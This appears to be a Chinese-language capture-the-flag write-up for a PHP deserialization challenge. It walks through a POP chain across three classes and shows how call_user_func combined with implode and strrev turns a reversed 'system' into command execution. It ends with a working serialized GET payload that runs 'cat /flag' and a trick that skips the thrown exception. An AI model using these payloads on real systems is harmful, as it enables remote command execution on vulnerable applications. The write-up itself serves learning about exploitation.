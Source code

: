 ```php
        echo "you get 2 C <br>";
        echo $this->c;
    }
}


if(isset($_GET['xy'])) {
    $a = unserialize($_GET['xy']);
    throw new Exception("noooooob!!!");
}
```

pop链思路很清晰：pop链从CCC类的析构函数切入，在**echo $this->c;**时跳到AAA类的toString方法，在toString方法中，**return $this->s->$p**，让把BBB类的对象赋值给s，打印一个BBB类没有的属性就可以了  

在程序触发get方法时，call_user_func($a,$b)($c)($d);给你一个call_user_func甜品函数（不过我挣扎到最后也没吃上，可恶），这个语句会把$a作为回调函数，处理$b,但是$b很特殊是一个数组，一般函数处理不了(强大如eval,system,exec等都无法使用)，这里提一个函数**implode**，用于返回一个由数组元素组合成的字符串，再把这个字符串作为回调函数，参考其他师傅，使用**implode,strrev,system,ls**函数和命令，把题目给的参数给打满了，太厉害了  

例如：

```php
$a = 'implode';
$b = 'strrev';
$c = 'metsys';
$d = 'ls';
call_user_func($a,$b)($c)($d);
```

利用call_user_func执行implode，把数组中的字符串'strrev'转化为字符串，作为新的回调函数处理$c，strrev将构造好的反向system转化过来作为函数执行'ls'命令，实现命令执行

pop链：

```php
$aa = new AAA();
$bb = new BBB();
$cc = new CCC();
$bb -> c ='metsys';
$bb -> d ='cat /flag';
$aa->s = $bb;
$aa->a = $e;

$cc->c = $aa;
echo serialize($cc);
```

payload:  

虚假的payload:  
?xy=O:3:"CCC":1:{s:1:"c";O:3:"AAA":2:{s:1:"s";O:3:"BBB":2:{s:1:"c";s:6:"metsys";s:1:"d";s:9:"cat /flag";}s:1:"a";N;}}  
记得题目最后需要破坏pop链，抛出异常结束程序，最后1改2就可以
> get: ?xy=O:3:"CCC":1:{s:1:"c";O:3:"AAA":2:{s:1:"s";O:3:"BBB":2:{s:1:"c";s:6:"metsys";s:1:"d";s:9:"cat /flag";}s:2:"a";N;}}  
